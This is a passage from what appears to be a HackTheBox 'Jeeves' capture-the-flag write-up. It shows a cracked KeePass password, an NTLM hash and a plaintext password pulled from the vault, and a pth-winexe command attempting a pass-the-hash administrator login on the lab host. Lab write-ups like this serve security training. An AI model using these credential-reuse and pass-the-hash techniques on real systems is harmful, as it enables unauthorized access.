 So the password is `moonshine1`.

![KeePass](/img/htb_img/Jeeves_img/06.png)

KeePass

The only interesting one is Backup stuff and DC Recovery

```bash
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00

S1TjAtJHKsugh9oC4VZl
```

One seems like an NTLM hash and the other a password, i will try them.

With `winexe` I try logging in with password and username:

```bash
❯ pth-winexe -U jenkins/administrator //10.10.10.63 cmd.exe 
Password for [JENKINS\administrator]:
E_md4hash wrapper called.
```
